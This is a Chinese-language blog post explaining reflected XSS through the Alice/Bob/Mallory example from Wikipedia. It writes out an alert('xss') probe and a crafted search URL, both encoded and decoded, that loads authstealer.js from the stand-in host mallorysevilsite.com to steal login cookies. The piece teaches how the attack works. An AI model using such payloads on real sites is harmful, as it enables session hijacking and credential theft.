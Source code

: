 ```yaml
---
layout: post
---
```


wiki里讲了两个xss攻击的例子. 第一个是非持续性xss(Non-persistent)，也成为Reflected xss.

## Non-persistent

Alice 经常去一个Bob的网站，且Bob的网站允许Alice使用username/password登录和存储一些敏感信息，例如账单信息
当用户登录的时候Bob会将认证凭据存到Cookie中以供client到server端验证身份。

Mallory发现Bob的网站存在reflected xss 漏洞, 过程如下:

* 当在搜索页面，Mallory输入一些词汇并点击提交按钮, 如果找不到结果Bpb的页面会提示这个词汇 Not found, 此时的页面URL为`http://bobwebsite.com?q=her input term`

* 对于一个正常的搜索，例如`pupples`, 如果该搜索页面未找到的话会提示`pupples not found`, 此时的url为`http://bobwebsite.com?q=pupples`

* 然而，让Mallory提交一个正常的搜索请求，例如`<script type='text/javascript'>alert('xss');</script>`, 出现下面几个现象: 1. 一个弹窗出现，弹出"xss", 2.伴随着弹窗的同时页面显示`<script type='text/javascript'>alert('xss');</script> not found` 3. 此时的url为`http:blobwebsite.com?q=<script%20type='text/javascript'>alert('xss');</script>`


发现了存在xss漏洞之后，Mallory手写了一个url: `http:blobwebsite.com?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E`, 看起来像一个正常的url，但是decode其中的hex字符之后，真实的url如下:`http:blobwebsite.com?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></script>`。

接着Mallory将该地址通过email的形式发送给一些使用blobwebsite的成员，并且还告诉他们`点击查看可爱的小狗狗`

当该email被alice打开的时候，即使Alice比较有心的查看了url之后恐怕也不会过度起疑。但是当Alice随手点开这条链接之后会看到`pupples not found`以及伴随着的Mallory脚本的执行。(此时便触发了xss攻击行为)。 这时候Mallory的脚本几乎可做任何事情, 包括将Alice的登录凭证Cookie发送给Mallory的服务器。 拿到登录凭证之后Mallory便可以伪装成Alice登录到blobwebsite，并且查看其敏感信息。

